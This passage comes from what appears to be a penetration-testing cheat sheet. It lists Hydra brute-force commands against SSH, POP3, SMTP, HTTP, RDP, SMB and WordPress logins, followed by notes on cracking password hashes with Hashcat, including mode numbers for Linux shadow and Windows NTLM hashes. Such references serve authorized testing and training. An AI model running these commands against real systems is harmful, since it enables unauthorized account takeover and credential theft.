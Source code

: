         *   Hydra SSH using a known password and a username list

            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        *   Hydra SSH Against Known username on port 22

            `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

        *   Hydra POP3 Brute Force

            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        *   Hydra SMTP Brute Force

            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        *   Hydra attack http get 401 login with a dictionary

            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

        *   Hydra attack Windows Remote Desktop with rockyou

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

        *   Hydra brute force SMB user with rockyou:

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`

        *   Hydra brute force a Wordpress admin login

            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

*   ## [](#password-hash-attacks)Password Hash Attacks

    *   Online Password Cracking  
        [_https://crackstation.net/_](http://web.archive.org/web/20171113221652/https://crackstation.net/) [_http://finder.insidepro.com/_](http://web.archive.org/web/20171113221652/http://finder.insidepro.com/)

    *   Hashcat Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.

    `apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev`

    and

    `apt-get install pocl-opencl-icd`

    Cracking Linux Hashes - /etc/shadow file

         500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
        3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
        7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
        1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems

    Cracking Windows Hashes

        3000 | LM                                               | Operating-Systems
        1000 | NTLM                                             | Operating-Systems

    Cracking Common Application Hashes
